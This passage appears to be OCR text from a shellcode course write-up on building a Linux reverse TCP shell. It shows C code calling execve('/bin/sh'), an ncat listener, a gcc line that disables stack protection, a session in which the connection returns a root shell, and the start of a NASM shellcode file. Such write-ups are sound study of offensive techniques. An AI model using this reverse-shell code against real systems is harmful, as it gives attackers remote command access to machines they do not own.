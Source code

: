 ```c
 
        execve("/bin/sh", NULL, NULL);
        return 0;
}
```
  
Let's listen on port 8080:  
```bash
ncat -klvp 8080
Ncat: Version 7.40 ( https://nmap.org/ncat )
Ncat: Listening on :::8080
Ncat: Listening on 0.0.0.0:8080
```
  
Let's connect:  
```bash
# gcc -fno-stack-protector -z execstack -o shell_reverse_tcp shell_reverse_tcp.c && ./shell_reverse_tcp

```
   
And we have:   
```bash
ncat -klvp 8080
Ncat: Version 7.40 ( https://nmap.org/ncat )
Ncat: Listening on :::8080
Ncat: Listening on 0.0.0.0:8080
Ncat: Connection from 127.0.0.1.
Ncat: Connection from 127.0.0.1:38488.
id
uid=0(root) gid=0(root) groups=0(root)
```
  
So what are the interesting functions:  
```bash
objdump -d ./shell_reverse_tcp -M intel
...
80485d2: e8 79 fe ff ff call 8048450 <connect@plt>
...
```
  
So we have:  
```
socket
connect
dup2
execve
```
  
Let's update our previous shellcode to match our new needs:  
```nasm
; shell_bind_tcp.nasm
; 
; A TCP port bind shellcode
;
; Author: SLAE - 891
;
; You are free to use and/or redistribute it without restriction

global  _start

section .text
_start:

; sockfd = socket(AF_INET, SOCK_STREAM, 0);
; int socketcall(int call, unsigned long *args);
; #define __NR_socketcall   102
; #define SYS_SOCKET        1
```